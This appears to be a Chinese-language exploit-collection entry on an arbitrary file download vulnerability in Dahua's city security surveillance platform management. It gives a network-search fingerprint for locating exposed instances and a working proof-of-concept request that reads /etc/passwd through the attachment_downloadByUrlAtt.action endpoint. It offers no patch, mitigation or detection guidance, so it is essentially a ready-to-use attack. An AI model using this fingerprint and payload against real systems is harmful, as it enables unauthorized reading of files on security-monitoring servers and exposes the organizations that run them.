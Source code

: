 # 

# 大华 城市安防监控系统平台管理 attachment_downloadByUrlAtt.action 任意文件下载漏洞

## 漏洞描述

大华城市安防监控系统平台管理存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

大华城市安防监控系统平台管理

## 网络测绘

```
"attachment_downloadByUrlAtt.action"
```

## 漏洞复现

登录页面

![image-20230704113653161](./images/image-20230704113653161.png)

验证POC

```
/portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd
```

![image-20230704113705975](./images/image-20230704113705975.png)
